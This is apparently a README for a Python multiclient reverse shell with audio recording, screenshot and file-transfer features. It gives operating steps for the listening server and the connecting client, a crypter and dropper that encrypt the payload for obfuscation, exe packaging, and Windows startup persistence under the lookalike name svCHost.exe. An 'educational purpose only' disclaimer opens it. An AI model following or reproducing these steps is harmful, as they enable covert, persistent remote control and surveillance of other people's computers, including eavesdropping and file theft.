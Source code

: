# Disclaimer

This is just for educational purpose only.This reverse shell should only be used in the lawful, remote administration of authorized systems. Accessing a computer network without authorization or permission is illegal.Do not attempt to violate the law with anything contained here.We will not be responsible for your any illegal actions.
***
# Multiclient-Reverse-shell
Reverse shell using socket programming in python.
With features like sound recording, screenshot,upload and download files.
***
# Prerequisite
* python 3.7.x
***
# How to Use

To use this reverse shell, two scripts need to be running

* **server/server.py** - runs on server and waits for clients to connect.(listens on 4444 port)
* **client/client.py** - connects to a remote server.

***

## Server

To set up server script, simply run **server.py**.\
`python server.py`\
You will get an interactive prompt.\
To list all current connections:\
`shell> list`\
To select a target from the list of clients:\
`shell> select 0`

***

## Client

In **client.py** , simply run or change the ip address of the server in the client.py file.
`python client.py`
***
## For obfuscation
$ cd crypter\
$ python crypter.py ../client/client.py \
which will create a encrypted payload using fernet encryption method.\
$ type encrypted_payload.txt (copy this) \
To execute encrypted payload use dropper.py.\
change the value of data variable in dropper.py file with the encrypted_payload.txt content.\
Than run:\
$python dropper.py
***
## Create Exe file.
To Create exe file of client.py run auto_py_to_exe command in terminal.
***
## To run at startup (Windows os)
$copy Run_at_Startup/run_at_startup.py Run_at_Startup/copy.py\
$copy Run_at_Startup/client_payload.py Run_at_Startup/svCHost.py\
$cd crypter\
$python crypter.py ../Run_at_Startup/copy.py\
which will create a encrypted_payload.txt.(copy its content)\
change the value of data variable in dropper/dropper.py file with the encrypted_payload.txt content.\
$copy dropper.py copy.py\
And than create its exe\
$python crypter.py ../Run_at_Startup/svCHost.py\
which will create a encrypted_payload.txt (copy its content).\
change the value of data variable in dropper/dropper.py file with the encrypted_payload.txt content.\
$copy dropper.py svCHost.py\
And than create its exe.

To put both the exe at some location and just run copy.exe to it will copy the svCHost.exe in C:\Users\<username>\AppData\Local\Microsoft or C:\Users\<username>\AppData\Local\Microsoft\office and creates its shortcut in startup folder.
***
# Pyaudio error
try this:\
$pipwin install pyaudio\
or\
refer to this:https://stackoverflow.com/questions/52283840/i-cant-install-pyaudio-on-windows-how-to-solve-error-microsoft-visual-c-14
